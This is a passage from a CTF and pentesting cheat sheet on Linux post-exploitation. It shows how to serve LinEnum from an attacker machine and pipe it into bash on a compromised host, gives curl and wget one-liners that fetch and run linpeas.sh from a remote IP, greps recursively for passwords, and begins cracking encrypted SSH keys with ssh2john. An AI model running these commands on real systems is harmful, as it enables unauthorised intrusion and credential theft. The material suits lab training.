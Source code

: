 Next we can serve it up in the python simple web server:

```
root@kali:~test# cd LinEnum/
root@kali:~test/LinEnum# ls
root@kali:~test/LinEnum# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

And now on our remote Linux machine we can pull down the script and pipe it directly to Bash:

```
www-data@vulnerable:/var/www$ curl 10.10.10.10/LinEnum.sh | bash
```

And the enumeration script should run on the remote machine.

## CTF Machine Tactics

Often it is easy to identify when a machine was created by the date / time of file edits.
We can create a list of all the files with a modify time in that timeframe with the following command:

```
find -L /  -type f -newermt 2019-08-24 ! -newermt 2019-08-27 2>&1 > /tmp/foundfiles.txt
```

This has helped me to find interesting files on a few different CTF machines.

Recursively searching for passwords is also a handy technique:

```
grep -ri "passw" .
```

Wget Pipe a remote URL directory to Bash (linpeas):

```
wget -q -O - "http://10.10.10.10/linpeas.sh" | bash
```

Curl Pipe a remote URL directly to Bash (linpeas):

```
curl -sSk "http://10.10.10.10/linpeas.sh" | bash
```

## Using SSH Keys

Often, we are provided with password protected SSH keys on CTF boxes.  It it helpful to be able to quicky crack and add these to your private keys.

First we need to convert the ssh key using John:

```
kali@kali:~/.ssh$ /usr/share/john/ssh2john.py ./id_rsa > ./id_rsa_john
...
```

Next we will need to use that format to crack the password:
